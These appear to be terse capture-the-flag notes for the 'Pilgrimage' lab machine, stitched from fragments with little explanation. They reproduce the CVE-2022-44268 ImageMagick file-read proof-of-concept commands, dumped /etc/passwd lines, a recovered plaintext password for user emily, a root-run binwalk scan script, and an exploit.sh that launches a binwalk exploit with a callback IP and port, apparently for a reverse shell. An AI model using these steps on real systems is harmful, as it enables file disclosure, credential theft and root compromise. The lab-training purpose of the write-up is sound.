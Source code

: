 
root:x:0:0:root:/root:/bin/bash
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash



## User

https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC

### Usage:

#### [](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC#installing-dependencies)Installing dependencies:

`1. $ apt-get install pngcrush imagemagick exiftool exiv2 -y`

#### [](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC#change-the-filename-you-want-to-read-below)Change the filename you want to read below:

`2. $ pngcrush -text a "profile" "/etc/hosts" vjp.png`

#### [](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC#confirm-everything-worked-perfectly)Confirm everything worked perfectly

`3. $ exiv2 -pS pngout.png`

#### [](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC#trigger-the-poc-via-convert-or-upload-image-to-the-vulnerable-service)Trigger the PoC via convert or upload image to the vulnerable service:

`4. $ convert pngout.png gopro.png`

#### [](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC#view-content-of-file-was-read)View content of file was read:

`5. $ identify -verbose gopro.png`

#### [](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC#decrypt-the-content)Decrypt the content:

`6. $ python3 -c 'print(bytes.fromhex("23202f6574632f686f7374730a3132372e302e302e31096c6f63616c686f73740a0a232054686520666f6c6c6f77696e67206c696e65732061726520646573697261626c6520666f7220495076362063617061626c6520686f7374730a3a3a3109096c6f63616c686f7374206970362d6c6f63616c686f7374206970362d6c6f6f706261636b0a666630323a3a3109096970362d616c6c6e6f6465730a666630323a3a3209096970362d616c6c726f75746572730a6475636e740a").decode("utf-8"))'`


 $db = new PDO('sqlite:/var/db/pilgrimage');

testpassword

abigchonkyboi123

emily:abigchonkyboi123


2023/06/27 06:56:55 CMD: UID=0    PID=721    | /bin/bash /usr/sbin/malwarescan.sh 
2023/06/27 06:56:55 CMD: UID=0    PID=720    | /usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ 

#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done





### PWN SCRIPTS


###  exploit.sh

#!/bin/bash                                                                                                         

while true; do                                                                                                      
file=$(ls /var/www/pilgrimage.htb/tmp/)                                                                             

        if [ -z "$file" ]; then                                                                                     
                echo "Nada..."                                                                                      

        else                                                                                                        
                break                                                                                               
        fi                                                                                    

done                                                                                                                

ruta="/var/www/pilgrimage.htb/tmp/$file"                                                                            
echo -e "\n Se encontró un archivo! $ruta\n"                                                                        

cp $ruta .                                                                                                          

echo "[*] Se va a ejecutar el script de python"                                                                     

python3 exploit.py /dev/shm/$file 10.10.14.126 1234

## exploit.py
https://www.exploit-db.com/exploits/51249